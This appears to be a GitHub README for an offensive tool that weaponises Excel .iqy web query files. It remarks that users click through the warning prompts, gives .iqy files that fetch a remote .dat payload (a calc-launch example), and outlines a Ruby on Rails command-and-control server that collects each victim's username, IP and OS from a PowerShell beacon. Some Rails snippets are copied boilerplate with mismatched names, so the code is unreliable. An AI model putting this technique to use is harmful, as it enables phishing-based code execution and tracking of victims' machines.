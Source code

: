# happy_iqy

Excel Web Query - What in the world is that? If you are like the other 99.9% of MS Excel users, you probably have never heard of microsoft excel web queries (note: statistic made up).

<p align="center">
  <img src="https://raw.githubusercontent.com/alexfrancow/happy_iqy/master/images/2018-09-21_122613.png"/>
</p>

Excel web queries are powerful! Web queries are basically like having a web browser built into Excel that attempts to format the content, putting individual pieces of data into separate cells. You can then use Excel formulas (like =A1/B2) to work directly with the data you've downloaded. And you don't have to know anything about perl, cgi, php, javascript, etc.

The real key to creating a dynamic excel web query is to create your own ".iqy" file. In it's basic form, the ".iqy" file is simply a TEXT file with three main lines:

```iqy
WEB
1
https://www.thedomain.com/script.pl?paramname=value&param2=value2
```

You can create the file using a simple text editor! 

To make the query dynamic, replace the value of each parameter in the web query file (queryname.iqy) with:

```iqy
["paramname","Enter the value for paramname:"]
```

Want to see how this would apply to a Google search? The form that I used above consists of HTML code that looks like this:

```html
<form action="https://www.google.com/search">
  <input type="text" name="q" value="excel web query">
  <input type="submit" value="Search Google">
</form>
```

Notice that "q" is the name of the parameter, and the action tells you what the URL should be. The dynamic web query file for a simple google search would look like this:

```iqy
WEB
1
https://www.google.com/search?q=["keyword","Enter the Search Term:"]
```

Luckily, as long as Microsoft Office is configured to block external content (which it is by default), when Excel launches users will be presented with a warning prompt:

<p align="center">
  <img src="https://raw.githubusercontent.com/alexfrancow/happy_iqy/master/images/2018-09-21_123927.png"/>
</p>

iqy-user-warning-prompt-1Unfortunately, similar prompts haven't stopped users from enabling macros in suspicious documents, and there's little reason to expect it will be a 100% effective deterrent here, either.

Once enabled, the .iqy file is free to download the PowerShell script. Thankfully, before it can run the user has to respond to another prompt:

<p align="center">
  <img src="https://raw.githubusercontent.com/alexfrancow/happy_iqy/master/images/2018-09-21_124045.png"/>
</p>

## Configuration

You must create an '.iqy' file and add the following lines:

```iqy
WEB
1
<URL for '.dat' file>
```

You can choose any example of this repository, in the url for the .dat file add the raw of any example.

### Calc example

```iqy
WEB
1
https://raw.githubusercontent.com/alexfrancow/happy_iqy/master/examples/calc-excel2016.dat
```
<p align="center">
  <img src="https://raw.githubusercontent.com/alexfrancow/happy_iqy/master/images/ezgif-2-993ba4acde.gif"/>
</p>


# Ruby C&C+- (from scratch)

When the user clicks on the '.iqy' file, the pc automatically opens a PowerShell and sends a post request to the ruby server. In this post we send the basic information of PC pc and save it in a BD.

> Rails cheatsheet: https://gist.github.com/mdang/95b4f54cadf12e7e0415

### Install Ruby on Rails

```bash
sudo apt-get install rubygems or sudo apt-get install rubygems-integration
sudo gem install tumble
sudo gem install rails

sudo apt-get install sqlite3 sqlite3-devel or sudo apt-get install sqlite3 libsqlite3-dev
sudo gem install sqlite3-ruby

rails new happy_iqy --database=sqlite3
cd happy_iqy

#rake db:create
rails server or rails s
```

#### Create models

Our application needs data. Remember what this means? It means models. Great, but how we generate a model? Rails comes with some generators to common tasks. The generator is the file /script/generate. The generator will create our model.rb file along with a migration to add the table to the database. A migration file contains code to add/drop tables, or alter/add/remove columns from tables. Migrations are executed in sequence to create the tables. Run migrations (and various other commands) with "rake". Rake is a ruby code runner. 

```
rails generate model User date:datetime whoami:string ip:string os:string 
```

##### Migration file

```rb
class CreateUsers < ActiveRecord::Migration[5.2]
  def change
    create_table :users do |t|
      t.datetime :date
      t.string :whoami
      t.string :ip
      t.string :os

      t.timestamps
    end
  end
end
```

Now, run the migration using the rake task db:migrate. db:migrate applies pending migrations: 

```
rake db:migrate
```

#### Create controllers

Remember controllers? We need a controller to display all the users in the system. This scenario corresponds to the index action in our UsersController (users_controller.rb) which we don't have yet. Just like generating models, use a generator to create the controller.

Generate a new controller with default actions, routes and views:

```
rails generate controller Users index new create
```

We need to define an action that finds and displays all users. How did we find all the users? Our strategy is use users.all and assign it to an instance variable (@var). Why an instance variable? We assign instance variables because views are rendered with the controllers binding. You're probably thinking bindings and instance variables...what's going on? Views have access to variables defined in actions but only instance variables. Why, because instance variables are scoped to the object and not the action. Let's see some code: 
Edit ```app/controllers/users_controller.rb```

```rb
class UsersController < ApplicationController
  def index
    @users = users.all
  end
  
  def new
  end
  
  def create
  end
end
```

#### Create routes

Now the controller can find all the users. But how do we tie this to a url? We have to create some routes. Rails comes with some handy functions for generating RESTful routes (another Rails design principle). This will generate urls like /makes and /makes/1 combined with HTTP verbs to determine what method to call in our controller. Use map.resources to create RESTful routes. Open up ```/config/routes.rb``` and change it.
Automagically create all the routes for a RESTful resource:

```rb
resources :users 
```

Routes.rb can look arcane to new users. Luckily there is a way to decipher this mess. There is routes rake task to display all your routing information. Run that now and take a peek inside: 

```bash
rake routes
```

Now we need to create a template to display all our books. Create a new file called ```/app/views/books/index.html.erb``` and paste this: 

```html
<% for user in @users do %>
  <h2><%=h user.whoami %></h2>
  <p><%= user.ip %></p>
<% end %>
```

This simple view loops over all @users and displays some HTML for each user. Notice a subtle difference. <%= is used when we need to output some text. <% is used when we aren't. If you don't follow this rule, you'll get an exception. Also notice the h before book.title. h is a method that escapes HTML entities. If you're not familiar with ruby, you can leave off ()'s on method calls if they're not needed. h text translates to: h(text). 

#### POST new user

Creating a new users requires two new actions. One action that renders a form for a new user. This action is named 'new'. The second is named 'create.' This action takes the form parameters and saves them in the database. Open up your ```users_controller.rb``` and add these actions

```
def new
  @user = user.new
end
 
def create
  @user = Book.new params[:user]
  if @user.save
    flash[:notice] = "#{@user.title} saved."
    redirect_to @user
  else
    render :new
  end
end
```

Make a POST request to: ```/users/new```
